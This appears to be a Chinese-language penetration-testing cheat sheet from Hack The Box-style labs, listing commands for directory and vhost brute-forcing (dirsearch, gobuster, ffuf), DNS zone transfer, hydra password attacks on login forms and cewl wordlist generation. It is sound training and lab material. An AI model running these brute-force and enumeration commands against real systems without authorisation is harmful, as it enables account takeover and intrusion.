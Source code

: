 # web 目录爆破

## dirsearch

```
python3 /root/dirsearch/dirsearch.py -e* -u 10.10.10.233 -t 100
```

## gobuster

```
gobuster dir -w /usr/share/wordlists/Web-Content/common.txt -u http://10.10.10.191 -t 30 --no-error
```


## ffuf

```
ffuf -w /path/to/wordlist -u https://target/FUZZ
```


# 爆破带指定扩展名
```
gobuster dir -t 100  --no-error --url http://10.13.38.11 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -x asp,aspx,txt
```



# vhost爆破
```
gobuster vhost -u horizontall.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 100

gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt --append-domain --no-error

```

如果开启了DNS服务，并且存在域传送漏洞
```
dig axfr cronos.htb @10.10.10.13
```


# fuzzing特定url
```
ffuf -w co_fuzz.txt -u http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/poo_FUZZ.txt
```


# 爆破登录表单

http
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^&login=Login:Incorrect username or password."
```

https
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```


# 根据页面生成用户名/密码名单

```
cewl --with-numbers -w passwd.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm

cewl -d 1 -m 3 -w user.txt 10.10.10.175
```